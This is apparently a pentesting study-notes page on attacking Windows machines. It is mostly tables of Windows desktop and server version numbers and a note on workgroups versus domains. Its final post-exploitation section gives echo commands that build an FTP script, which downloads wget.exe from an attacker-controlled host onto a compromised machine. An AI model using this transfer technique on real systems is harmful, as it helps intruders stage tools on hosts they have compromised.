 # Attacking Windows Boxes

## Windows Desktop Versions

| Operating System            | Version Number |
| --------------------------- | -------------- |
| Windows 1.0                 | v1.04          |
| Windows 2.0                 | v2.11          |
| Windows 3.0                 | v3             |
| Windows NT 3.1              | v3.10.528      |
| Windows for Workgroups 3.11 | v3.11          |
| Windows NT Workstation 3.5  | v3.5.807       |
| Windows NT Workstation 3.51 | v3.51.1055     |
| Windows 95                  | v4.0.950       |
| Windows NT Workstation 4.0  | v4.0.1381      |
| Windows 98                  | v4.1.1381      |
| Windows 98 Second Edition   | v4.1.2222      |
| Windows Me                  | v4.90.3000     |
| Windows 2000 Professional   | v5.0.2195      |
| Windows XP                  | v5.1.2600      |
| Windows Vista               | v6.0.6000      |
| Windows 7                   | v6.1.7600      |
| Windows 8.1                 | v6.3.9600      |
| Windows 10                  | v10.0.10240    |

## Windows Server Versions

```
Windows NT 3.51                  NT 3.51
Windows NT 3.5                   NT 3.50
Windows NT 3.1                   NT 3.10
Windows 2000                     NT 5.0     

    Windows 2000 Server
    Windows 2000 Advanced Server
    Windows 2000 Datacenter Server

Windows NT 4.0                   NT 4.0     

    Windows NT 4.0 Server
    Windows NT 4.0 Server Enterprise
    Windows NT 4.0 Terminal Server Edition

Windows Server 2003              NT 5.2     

    Windows Small Business Server 2003
    Windows Server 2003 Web Edition
    Windows Server 2003 Standard Edition
    Windows Server 2003 Enterprise Edition
    Windows Server 2003 Datacenter Edition
    Windows Storage Server

Windows Server 2003 R2           NT 5.2     

    Windows Small Business Server 2003 R2
    Windows Server 2003 R2 Web Edition
    Windows Server 2003 R2 Standard Edition
    Windows Server 2003 R2 Enterprise Edition
    Windows Server 2003 R2 Datacenter Edition
    Windows Compute Cluster Server 2003 (CCS)
    Windows Storage Server
    Windows Home Server

Windows Server 2008               NT 6.0     

    Windows Server 2008 Standard
    Windows Server 2008 Enterprise
    Windows Server 2008 Datacenter
    Windows Server 2008 for Itanium-based Systems
    Windows Server Foundation 2008
    Windows Essential Business Server 2008
    Windows HPC Server 2008
    Windows Small Business Server 2008
    Windows Storage Server 2008
    Windows Web Server 2008

Windows Server 2008 R2            NT 6.1     

    Windows Server 2008 R2 Foundation
    Windows Server 2008 R2 Standard
    Windows Server 2008 R2 Enterprise
    Windows Server 2008 R2 Datacenter
    Windows Server 2008 R2 for Itanium-based Systems
    Windows Web Server 2008 R2
    Windows Storage Server 2008 R2
    Windows HPC Server 2008 R2
    Windows Small Business Server 2011
    Windows MultiPoint Server 2011
    Windows Home Server 2011
    Windows MultiPoint Server 2010

Windows Server 2012               NT 6.2     

    Windows Server 2012 Foundation
    Windows Server 2012 Essentials
    Windows Server 2012 Standard
    Windows Server 2012 Datacenter
    Windows MultiPoint Server 2012

Windows Server 2012 R2            NT 6.3     

    Windows Server 2012 R2 Foundation
    Windows Server 2012 R2 Essentials
    Windows Server 2012 R2 Standard
    Windows Server 2012 R2 Datacenter

Windows Server 2016     2016       NT 10.0
```

## Workgroups vs. Domains

| Type      | Description                                                               |
| --------- | ------------------------------------------------------------------------- |
| Workgroup | Peer-to-Peer, Home network for small business.                            |
| Domains   | Server-Client setup. Login to central Domain Server via Active Directory. |

## Transferring Files to Windows - _(Post-Exploitation)_

Using the `ftp-client` that is preinstalled onto Windows:

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

**Afterwards run this to connect:**

```
ftp -v -n -s:ftp.txt
```
